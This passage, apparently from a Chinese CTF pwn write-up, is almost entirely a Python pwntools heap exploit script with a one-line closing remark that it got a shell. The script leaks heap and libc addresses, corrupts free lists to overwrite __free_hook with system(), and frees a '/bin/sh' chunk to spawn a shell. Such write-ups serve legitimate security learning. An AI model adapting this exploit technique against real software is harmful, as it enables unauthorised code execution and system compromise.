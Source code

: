 ```python
	create(0x60,"a"*0x20)#0
	create(0x60,"a"*0x20)#1
	create(0x60,"b"*0x20)#2
	delete(0)
	delete(1)
	create(0x60,"a")#0
	show()
	p.recvuntil("0 : a")
	data = "\x00"+p.recvuntil("2",drop=True)
	heap = u64(data.ljust(8,"\x00"))
	print "[*]heap : ", hex(heap)
	create(0x100,"a"*0x20)#1
	create(0x100,"a"*0x20)#3
	delete(1)
	create(0x20,"a"*0x20)#1
	create(0xd0,"a"*8)#4
	show()
	p.recvuntil("4 : aaaaaaaa")
	data = p.recvn(6) + "\x00\x00"
	libc_base = u64(data) - 0x3c4b78
	malloc_hook = libc_base + 0x3c4b10
	one_shot = libc_base + 0xf02a4
	free_hook = libc_base + 0x3c67a8
	system = libc_base + 0x45390
	print '[*]libc_base : ',hex(libc_base)
	print '[*]malloc_hook : ',hex(malloc_hook)
	print '[*]free_hook : ',hex(free_hook)
	print '[*]one_shot : ',hex(one_shot)
	print '[*]system : ',hex(system)
	index = (heap - chunk_list + 8)/0x10 + 15
	print '[*]index : ',hex(index)
	change(2,"a"*8+p64(heap+0x10))
	create(0x71,"h"*0x71)#5
	create(0x60,"e"*0x60) #6
	create(0x60,"b"*0x60) #7
	#gdb.attach(p)
	delete(6)
	delete(7)
	delete(index)
	create(0x60,p64(0x6020a8)) #6
	create(0x60,"c"*0x60) #7
	create(0x60,"/bin/sh\x00") #8
	payload = p64(free_hook) + p64(0x20) + p64(heap+0x10) payload = payload.ljust(0x60,"\x00")
	create(0x60, payload) #9
	show()
	change(5,p64(system))
	delete(6)
	p.recv()
	#gdb.attach(p)
	p.interactive() 

exp()
```
最后成功 getshell